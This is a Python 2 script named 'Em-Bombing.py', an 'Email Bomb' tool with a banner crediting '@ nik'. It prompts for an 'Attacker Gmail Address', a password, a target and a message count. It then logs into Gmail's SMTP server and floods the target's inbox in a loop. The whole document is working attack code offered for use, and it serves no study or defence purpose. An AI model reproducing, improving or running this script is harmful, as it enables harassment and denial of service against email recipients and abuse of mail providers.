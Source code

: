 # Em-Bombing.py
#!/usr/bin/python #E-bomber    import os import smtplib import getpass import sys import time  print '                                                                    ' print '                                                                    ' print '            #################################################       ' print '            #                                               #       ' print '            #                 Email Bomb                    #       ' print '            #                                               #       ' print '            #               create By @ Nik              #       ' print '            #                                               #       ' print '            #          Hello Buddy i am @ nik               #       ' print '            #                                               #       ' print '            #                 missing something word                                #       ' print '            #                                               #       ' print '            #                                               #       ' print '            #################################################       '  print '                                                                    '   print '                                           '  print '    ' email = raw_input('Attacker Gmail Address : ') print '             ' user = raw_input('Anonymous name : ') print '      ' passwd = getpass.getpass('Password: ')  print '   '  to = raw_input('\nTo: ')   print '    '  body = raw_input('Message: ')  print '    '  total = input('Number of send: ')  smtp_server = 'smtp.gmail.com' port = 587   print ''  try:     server = smtplib.SMTP(smtp_server,port)      server.ehlo()     server.starttls()     server.login(email,passwd)     for i in range(1, total+1):         subject = os.urandom(9)         msg = 'From: ' + user + '\nSubject: ' + '\n' + body         server.sendmail(email,to,msg)         print "\rE-mails sent: %i" % i         time.sleep(1)         sys.stdout.flush()     server.quit()     print '\n Done !!!' except KeyboardInterrupt:     print '[-] Canceled'     sys.exit() except smtplib.SMTPAuthenticationError:     print '\n[!] The username or password you entered is incorrect.' sys.exit()
